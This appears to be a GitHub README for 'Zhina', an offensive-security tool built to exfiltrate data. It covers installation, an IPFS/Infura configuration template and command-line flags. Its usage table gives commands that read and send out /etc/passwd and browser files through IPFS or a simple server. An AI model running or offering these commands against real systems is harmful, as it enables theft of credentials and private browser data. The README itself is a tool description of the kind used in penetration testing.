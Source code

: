 ### Zhina



A simple app to exfiltration data with some features.

## Overview

A tools for exfiltration with mutliple way.

Brought to you by:

<img src="https://hadess.io/wp-content/uploads/2022/04/LOGOTYPE-tag-white-.png" alt="HADESS" width="200"/>

[HADESS](https://hadess.io) performs offensive cybersecurity services through infrastructures and software that include vulnerability analysis, scenario attack planning, and implementation of custom integrated preventive projects. We organized our activities around the prevention of corporate, industrial, and laboratory cyber threats.



## Background

![zhina](zhina.png)


On 16 September 2022, a 22-year-old kurdish women with iranian nationality named Mahsa Amini[a], also known as Jina Amini, died in a hospital in Tehran, Iran, under suspicious circumstances. The Guidance Patrol, the religious morality police of Iran's government, arrested Amini for not wearing the hijab in accordance with government standards.

## Installation

You can install a few ways:

1. Download the binary for your OS from https://github.com/HadessCS/zhina/releases
1. or use `go install`
   ```
   go install -v github.com/hadesscs/zhina
   ```
1. or clone the git repo and build
   ```
   git clone https://github.com/hadesscs/zhina.git
   cd zhina
   go get -v
   go build
   ```


## Configuration

Create a configuration file called `config.yaml` an example is available below:
```
---
infura:
  PROJECT_ID: [PROJECT_ID]
  API_SECRET_KEY: [API_SECRET_KEY]
```


When zhina runs it checks the current directory for a `config.yaml`, if you wish to use a different configuration file use the command `--config /path/to/file.yaml`


## Command Line Options
```
--all             For all devices
--config string   Configuration file: /path/to/file.yaml, default = ./config.yaml (default "config.yaml")
--debug           Display debugging information
--device string   What device to query, (default: "all")
--displayconfig   Display configuration
--do string       encode64
--path string     Path to Exfiltrate
--serve type           How Exfiltrate
--version         Display version information
--help            Display help
```




##  Example Usage
| Command | Details |
|:--|:--|
| `zhina --do encode64 --path /etc/passwd` | Exfiltrate password file |
| `zhina --path browser --slice slice1M --serve ipfs` | Exfiltrate Browser Files with 1M slice and serve on ipfs |
| `zhina --path /etc/passwd --slice slice1M --serve simple` | Exfiltrate Browser Files with 1M slice and serve on simple |




